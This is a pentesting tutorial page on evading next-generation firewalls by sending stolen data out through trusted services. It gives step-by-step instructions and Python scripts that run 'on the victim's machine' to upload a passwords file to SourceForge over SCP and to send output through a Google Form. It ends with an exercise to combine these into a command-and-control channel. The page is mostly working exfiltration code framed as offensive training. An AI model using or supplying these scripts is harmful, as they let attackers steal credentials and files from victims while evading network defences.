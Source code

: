 ```yaml
---
title: Bypassing Next Generation Firewalls
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - bypassing techniques
  - firewall
  - bypassing firewall
  - next generation firewalls
---
```


# Bypassing Next Generation Firewalls

Corporate firewall (Next Generation Firewalls) can block traffic based on the reputation of the target IP/url. This means that once we achieve to execute the malicious client side script on the victim's machine, this next generation firewall might block/defer the connection if the reputation or the rank of the target URL/IP belongs to a pool of resources supplied by the vendor and it's categorized as low.

To overcome this filter, modern malware is using trusted targets.

## Using Source Forge for data exfiltration

**1.** Signup in Source Forge

You will get credentials for configuring your SFTP agent in step 3.


**2.** Install filezilla. It will work as our SFTP agent: 

```bash
sudo apt-get install filezilla
```

**3.** Configure filezilla and connect.
```
Host: web.sourceforge.net
username: usernameinSourceForge
password: passwordinSourceForge
port: 22
```

**4.** Install these two python libraries on the victim's machine: paramiko and scp.

```
pip install paramiko
pip install scp
```

**5.** Run the script on the victim's machine:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read SourceForge terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import paramiko
import scp

# File Management on SourceForge 
# [+] https://sourceforge.net/p/forge/documentation/File%20Management/


ssh_client = paramiko.SSHClient() # creating an ssh_client instance using paramiko sshclient class

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh_client.connect("web.sourceforge.net", username="myusernameatSourceForge", password="PASSWORD HERE") #Authenticate ourselves to the sourceforge. Server, user and password from step 1
print ("[+] Authenticating against web.sourceforge.net")

scp = scp.SCPClient(ssh_client.get_transport()) #after a sucessful authentication the ssh session id will be passed into SCPClient function

scp.put("C:/Users/Alex/Desktop/passwords.txt") # upload a file, for instance password.txt
print ("[+} File is uploaded")

scp.close()

print("[+] Closing the socket")

```

## Using Google Forms for submitting output

**1.** Create a Google Form with a quick test and copy the link of the survey.

**2.** Copy the name of the form from the source code of the google form.

![name of the form](../img/google-form.png)

**3.** Paste URL of the survey +  name of the form in the script:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read Google terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2



import requests

url = 'https://docs.google.com/forms/d/1Ndjnm5YViqIYXyIuoTHsCqW_YfGa-vaaKEahY2cc5cs/formResponse'

form_data = {'entry.1301128713':'Lets see how we can use this, in the next exercise'}

r = requests.post(url, data=form_data)

# Submitting form-encoded data in requests:-
# http://docs.python-requests.org/en/latest/user/quickstart/#more-complicated-post-requests
```


### Exercise 

```
Try to combine the above ideas (Google Form + Twitter + SourceForge) Into a single script and see if you can control your target without direct interaction.
```
